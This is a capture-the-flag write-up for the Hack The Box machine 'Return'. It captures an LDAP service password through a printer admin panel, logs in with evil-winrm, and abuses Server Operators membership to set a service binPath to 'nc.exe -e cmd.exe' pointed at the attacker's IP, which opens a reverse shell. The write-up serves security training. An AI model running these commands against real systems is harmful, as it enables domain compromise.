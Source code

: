 # Return

### Challenge: FullPWN

### Tools: Nmap, FTP, SSH, Linpeas, Python

THe nmap scan shows alot of information but most notable are HTTP and LDAP. Running DIRB did not give much and scanning for vulnerabilities did not show anything for any of the ports either.

```console
└──╼ [★]$ sudo nmap -sC -A -O 10.129.95.241
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-12 20:18 BST
Nmap scan report for 10.129.95.241
Host is up (0.0046s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-12 19:37:18Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=8/12%OT=53%CT=1%CU=34314%PV=Y%DS=2%DC=T%G=Y%TM=62F6A7A
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10C%TI=I%CI=I%II=I%SS=S%TS=
OS:U)OPS(O1=M539NW8NNS%O2=M539NW8NNS%O3=M539NW8%O4=M539NW8NNS%O5=M539NW8NNS
OS:%O6=M539NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%
OS:DF=Y%T=80%W=FFFF%O=M539NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=
OS:0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S
OS:=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=
OS:Z)

Network Distance: 2 hops
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-08-12T19:37:33
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: 18m36s

TRACEROUTE (using port 21/tcp)
HOP RTT     ADDRESS
1   5.45 ms 10.10.14.1
2   4.93 ms 10.129.95.241

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.06 seconds
```

By navigating to the webpage and settings we can see our way in. All we gotta do is change the IP and set up a listner on our end.

![image](https://user-images.githubusercontent.com/105310322/184442861-f83d4bd0-3018-48ad-b55d-00fe9a9ce10b.png)

Once we connect we can see that it popped out what looks like a password so lets see where we can use it.

```console
└──╼ [★]$ sudo nc -lvnp 389
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::389
Ncat: Listening on 0.0.0.0:389
Ncat: Connection from 10.129.95.241.
Ncat: Connection from 10.129.95.241:54957.
0*`%return\svc-printer�
                       1edFg43012!!
```
Using evil-winrm works to let us login as the service account and grab our first flag.

```cnosole
└──╼ [★]$ evil-winrm -i 10.129.95.241 -u svc-printer
Enter Password: 

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```
```console
*Evil-WinRM* PS C:\Users\svc-printer> cat Desktop/user.txt
572404b45e49f57e4014851b47458ab4
```
I struggled for a bit on privilege escalating here until I got some help with the group permission *Server Operators* With this membership we can get our reverse shell.

```console
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   8/12/2022 2:17:55 PM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```
Set up your listener and then input the following commands on the victim. (nc.exe was not installed by default on pwnbox and sudo apt install windows-binaries was not working for me so I manually downloaded it)

```console
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload /home/htb-0xrogue/Downloads/nc.exe
Info: Uploading /home/htb-0xrogue/Downloads/nc.exe to C:\Users\svc-printer\Documents\nc.exe

                                                             
Data: 79188 bytes of 79188 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.93 1234"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
```
This shell is very unstable and only lasts about 60 sec but it is just enough time to read the root flag!

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
8e5dd6807afea34697b12d6c823e6482
```

GG!
